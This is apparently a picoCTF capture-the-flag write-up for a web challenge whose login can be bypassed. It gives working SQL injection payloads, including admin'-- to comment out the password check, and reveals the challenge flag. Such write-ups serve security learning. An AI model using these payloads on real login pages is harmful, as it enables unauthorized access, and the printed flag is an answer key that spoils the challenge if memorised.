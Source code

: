#web-exploitation
<hr>

#### Description

There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751

#### Solve
1.  First, send POST request to https://jupiter.challenges.picoctf.org/problem/53751/login.php with form key of debug=1
2. The SQL query: SELECT * FROM users WHERE name=' '  AND password=' ' (**Same as before**)
3. Do SQL Injection by sending POST request with username=`' or ''='` and password=`' or ''='`  --> Failed
4. Some research on https://portswigger.net/web-security/sql-injection: Subverting application logic. send POST with username=`admin'--`
5. The SQL query: SELECT * FROM users WHERE name='admin'--' AND password='admin'
> The key thing here is that the double-dash sequence `--` is a comment indicator in SQL, and means that the rest of the query is interpreted as a comment. This effectively removes the remainder of the query... (portswigger)
6. Your flag is: picoCTF{m0R3_SQL_plz_c34df170}